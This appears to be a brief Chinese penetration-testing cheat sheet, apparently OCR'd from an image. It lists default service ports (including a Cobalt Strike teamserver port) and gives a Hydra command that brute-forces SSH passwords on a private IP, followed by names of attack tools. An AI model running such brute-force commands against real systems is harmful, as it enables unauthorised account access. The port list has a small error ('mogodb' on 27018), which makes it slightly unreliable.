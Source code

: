 
|服务| 端口| 
| --- | --- |
|web| 80 | 
|mysql |3306 |
|Microsoft SQL Server |1433|
|https | 443 |
|ftp |21 |
|ssh | 22| 
|dns| 53|
|tomcat| 8080|
|redis| 6379|
|rsync| 873|
|PostgreSQL |5432|
|cobaltstrike teamserver| 50050|
|smtp| 25|
|pop3 |110 |
|远程终端 rdp| 3389|
|smb |445 |
|rpc| 135 |
|imap| 143 |
|NetBIOS| 139|
|SMTPS| 465 |
|POP3S| 995 |
|mogodb| 27018 |
|memcached |11211 |
|telnet |23 |
|oracle |1521|

[[hydra]]
使用 hydra 穷举 ssh 服务
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f
																			\ssh://192.168.1.104
xhydra
metasploit
御剑
wfuzz
